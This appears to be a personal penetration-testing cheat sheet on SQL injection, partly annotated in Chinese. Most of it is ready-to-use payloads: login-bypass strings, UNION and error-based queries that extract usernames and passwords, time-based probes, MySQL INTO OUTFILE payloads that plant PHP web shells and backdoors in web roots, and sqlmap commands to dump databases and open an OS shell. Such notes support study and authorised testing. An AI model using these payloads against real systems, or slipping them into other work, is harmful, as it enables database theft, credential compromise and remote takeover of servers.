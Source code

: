 1* SQLi可以注入实现RCE 
# Testing for SQLi
[PayloadAlltheThings - Good Stuff for Manual SQLi](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)
## Testing for Bypasses: 
   ' or 1=1 LIMIT 1 --
   ' or 1=1 LIMIT 1 -- -
   ' or 1=1 LIMIT 1#
   'or 1#
   ' or 1=1 --
   ' or 1=1 -- -
## Error-Based
```sql
'offsec' OR 1=1 -- //
'offsec' OR 1=1 -- //


'offsec' OR 1=1 in (SELECT * FROM users) -- //
'offsec' or 1=1 in (SELECT password FROM users) -- //
'offsec' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
## UNION-Based
```sql
'' ORDER BY 1-- //
'...%' UNION SELECT database(), user(), @@version, null, null -- //
'' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
'' UNION SELECT null, username, password, description, null FROM users -- //
```
## Boolean-Based
cast()&&convert()参数只能为一个值
```sql
'' AND 1=1 -- //
CAST((SELECT example_column FROM example_table) AS int)
''1 UNION SELECT 'aaaa',null,null,null
/* ... */
'' UNION SELECT 1, 2, 3, CAST(column_name AS INT), 5, 6 FROM users -- 
```
## Time-Base SQLi
```sql
offsec'' AND IF (1=1, sleep(3),'false') -- //
-- IF(Expr, if_true_expr, if_false_expr)
```
## MySQL Lead to RCE !
```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile 
"C:\\xampp\\htdocs\\backdoor.php"
   [...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'
   [...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -
   [...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

## SQLmap
```bash
# --batch auto yes; -r <request.txt> -D <db> -T <table> -C <column>
#--dbs --tables --columns get schema_name
#--web-root writable file for current user.
sqlmap -u http://172.21.0.0 --crawl=1
	# dump
sqlmap -u http://172.21.0.0 --dbms=mysql --dump
# Shell
sqlmap -u http://172.21.0.0 --dbms=mysql --os-shell
# -p inject_point
sqlmap -r packet.txt --batch -p --level 3 -dbs -D ... -T ...
sqlmap -u {$Target_URL} --form --level 3
sqlmap -r {$packet}.txt --batch --level 3 -D {$database} -T {$table} --dump

sqlmap -u 'http://<IPaddr>/...?search=any+query' --cookie= <cookie> #e.g. PHPSESSID=<your cookie>
```
